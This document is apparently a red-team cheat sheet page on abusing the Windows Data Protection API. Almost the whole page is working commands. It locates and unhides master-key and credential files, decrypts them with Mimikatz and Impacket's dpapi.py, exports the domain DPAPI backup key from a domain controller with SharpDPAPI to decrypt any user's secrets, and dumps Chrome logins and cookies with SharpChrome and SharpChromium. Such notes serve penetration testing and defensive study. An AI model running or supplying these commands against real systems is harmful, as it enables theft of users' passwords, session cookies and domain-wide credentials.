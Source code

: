 ```yaml
---
description: Data Protection API
---
```


# DPAPI

* [https://habr.com/ru/post/434514/](https://habr.com/ru/post/434514/)
* [https://otterhacker.github.io/Pentest/Techniques/DPAPI.html](https://otterhacker.github.io/Pentest/Techniques/DPAPI.html)

{% file src="/.gitbook/assets/ZN17 - Hunting for Credentials Dumping in Windows Environment (Teymur Kheirkhabarov).pdf" %}

Master keys locations (hidden files, need `-Force`):

```
PS > ls -fo C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\ (%appdata%\Microsoft\Protect\)
PS > ls -fo C:\Users\snovvcrash\AppData\Local\Microsoft\Protect\ (%localappdata%\Microsoft\Protect\)
```

Credential files locations (hidden files, need `-Force`):

```
PS > ls -fo C:\Users\snovvcrash\AppData\Roaming\Microsoft\Credentials\ (%appdata%\Microsoft\Credentials\)
PS > ls -fo C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\ (%localappdata%\Microsoft\Credentials\)
```

Unhide files:

```
PS > cmd /c "attrib -h -s 00ff00ff-00ff-00ff-00ff-00ff00ff00ff"
PS > cmd /c "attrib -h -s 00ff00ff00ff00ff00ff00ff00ff00ff"
```




## Mimikatz

* [https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

Decrypt manually offline with known plaintext password:

```
mimikatz # dpapi::masterkey /in:00ff00ff-00ff-00ff-00ff-00ff00ff00ff /sid:S-1-5-21-4124311166-4116374192-336467615-500 /password:Passw0rd!
mimikatz # dpapi::cache
mimikatz # dpapi::cred /in:00ff00ff00ff00ff00ff00ff00ff00ff
```




## Impacket

Retrieve the domain DPAPI backup key (never changes) from a DC to decrypt master key and blobs:

```
$ dpapi.py backupkeys --export -k -no-pass -t DC01.megacorp.local
$ dpapi.py masterkey -file ./Users/Administrator/AppData/Roaming/Microsoft/Protect/<SID>/00ff00ff-00ff-00ff-00ff-00ff00ff00ff {-password 'Passw0rd!' -sid <SID> | -pvk 'G$BCKUPKEY_<GUID>.pvk}
$ dpapi.py credential -file ./Users/Administrator/AppData/Roaming/Microsoft/Credentials/00ff00ff00ff00ff00ff00ff00ff00ff -key 0x<HEX_MASTER_KEY>
```




## SharpDPAPI

* [https://github.com/GhostPack/SharpDPAPI#table-of-contents](https://github.com/GhostPack/SharpDPAPI#table-of-contents)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1)

Triage user's *credentials*, *vaults*, *rdg* and *certificates*:

```
Cmd > .\SharpDPAPI.exe triage /password:Passw0rd!
```

Triage machine's credentials (*machinecredentials*), vaults (*machinevaults*) and certificates (*certificates /machine*):

```
Cmd > .\SharpDPAPI.exe machinetriage
```

Retrieve the domain DPAPI backup key (never changes) from a DC to decrypt master key and blobs for any user in the domain with it (needs DA privileges):

```
Cmd > .\SharpDPAPI.exe backupkey /nowrap [/server:DC01.megacorp.local] [/file:key.pvk]
Cmd > .\SharpDPAPI.exe credentials /pvk:key.pvk [/server:PC01.megacorp.local]
```



### SharpChrome

- [https://github.com/GhostPack/SharpDPAPI#sharpchrome-commands](https://github.com/GhostPack/SharpDPAPI#sharpchrome-commands)

```
Cmd > .\SharpChrome.exe logins|cookies [/pvk:key.pvk]
```




## SharpChromium

- [https://github.com/djhohnstein/SharpChromium](https://github.com/djhohnstein/SharpChromium)

```
Cmd > dir "C:\Users\snovvcrash\AppData\Local\Google\Chrome\User Data\Default"
Cmd > .\SharpChromium.exe logins
Cmd > .\SharpChromium.exe cookies
```




## Tools

- [https://github.com/login-securite/DonPAPI](https://github.com/login-securite/DonPAPI)
- [https://github.com/zblurx/dploot](https://github.com/zblurx/dploot)
- [https://github.com/leftp/DPAPISnoop](https://github.com/leftp/DPAPISnoop)
